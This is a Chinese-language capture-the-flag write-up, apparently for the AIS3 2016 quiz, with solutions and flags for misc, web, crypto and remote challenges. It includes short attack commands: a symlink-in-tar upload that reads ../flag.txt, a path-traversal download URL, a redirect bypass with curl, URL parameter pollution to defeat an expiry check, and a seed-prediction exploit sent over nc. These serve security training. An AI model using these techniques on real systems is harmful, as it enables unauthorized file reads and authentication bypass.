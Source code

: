 ## misc-1
`ais3{2016_^_^_hello_world!}`
## misc-2
`hd UNPACK_ME` 觀察發現類似7z的[signature](http://www.7-zip.org/recover.html):  
37 7A BC AF 27 1C 被改成 37 5A BC AF 27 1C  
*(其實他就是把 "7z" 換成 "7Z" XD)*  
Use python mmap to repair:
``` python
with open('','a+') as file:
  mm = mmap.mmap(file.fileno(),0)
  mm[1] = '\x7A'
  mm.close()
```
修好之後會發現檔案被加密了  其中一個0 byte的檔名就是密碼   
`7z x 壓縮檔 -p密碼`  
接下來一樣的方式修好7z 解壓縮後會有secret.txt  
裡面是下一個檔案的密碼  
解壓縮一次size會減少300 bytes左右, 估計包了1000層
``` sh
for i in `seq 1000`;do
  filename=`ls | grep ".\{16,\}"`
  ./repair.py $filename
  7z x $filename -p`cat secret.txt` -y
done
```
```sh
cat flag.txt
ais3{7zzZzzzZzzZzZzzZiP}
```
## misc-3
提示是Symbolic Link

程式碼會把上傳的tar檔解壓縮後,  
再跟../flag.txt做hash比較  
要brute force去做hash collision看起來是不太可行..  
後來提示出來之後才知道symbolic link可以隨意指定路徑
```sh
ln -s ../flag.txt guess.txt
tar cvf guess.tar guess.txt
```
把檔案上傳後就可以拿到flag
## web-1
Google 也找不到的原因就是因為robots.txt的設定  
直接打開robots.txt 就能找到隱藏的網頁了  
https://quiz.ais3.org:8011/robots.txt
```
User-agent: *
Disallow: /admin
Disallow: /cgi-bin/
Disallow: /images/
Disallow: /tmp/
Disallow: /private/
Disallow: /this_secret_page_you_should_not_know_where_it_is.php
```
https://quiz.ais3.org:8011/this_secret_page_you_should_not_know_where_it_is.php   
`ais3{Y0u_beat_the_G00g1e!!}`
## web-2
Location 會向瀏覽器傳送 redirect 指令  
但是原本的網頁還是會傳送到client端  
使用無視redirect的curl:  
`curl https://quiz.ais3.org:8012/panel.php`
```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Admin Panel</title>
</head>
<body>
Admin's secret is: ais3{admin's_pane1_is_on_fir3!!!!!}</body>
</html>
```
## web-3
根據這個[bug](https://bugs.php.net/bug.php?id=55511):  
https://quiz.ais3.org:8013/download.php?p=../flag.php&a=10:5  
```php
Ha! Ha! You can not see the content of this file, because it is PHP!!! :)
<?php
$flag = "ais3{haha!i_bypassed_the_fucking_waf!}";
?>
```
## crypto-1
`xortool crypto1`發現可能的長度為 13 or 39  
`xortool crypto1 -l 13 -c 00`不是flag  
`xortool crypto1 -l 39 -c 00`會看到AIS字樣, 看來十分接近了  

改用空格分析:  
`xortool crypto1 -l 39 -c 20`  
`ais3{XoR_enCrYPtiON_15_n0t_a_G00d_i!ea}`  
上傳之後發現答案是錯的OAO  
根據某位大大的說法只好自己腦補一下XD   
`ais3{XoR_enCrYPtiON_15_n0t_a_G00d_idea}`  
不知道是不是bug還是解法不對
## crypto-2
這題其實可以繞過hash pump的部份  
　quiz.ais3.org:8014/?expire=1467442319&auth=2aa272c43a0440b10abb0a1c4266842b941bc63c&expire=9999999999999  
expire跟auth本來就已經是一對了  但是url如果有重複的parameter會以後面的為主  
只要讓expire > time(0)就可以了...  
`ais3{HasH.eXtension.@tt@ck!}`

理論上應該要避免掉這種狀況才對XD  不知道為什麼會留著這個漏洞  

## remote-1
time attack
```c
#include
int main(){
  srand(time(NULL));
  return rand()^0x2016a153;
}
```
```sh
./a.out | nc quiz.ais3.org port
ais3{sEEd_is_cRiTiCaL_@_@}
```
## binary-1
原本是用回推encrypted的方式  但是算出來的答案是錯的  
後來用計算instruction的方式  
待補
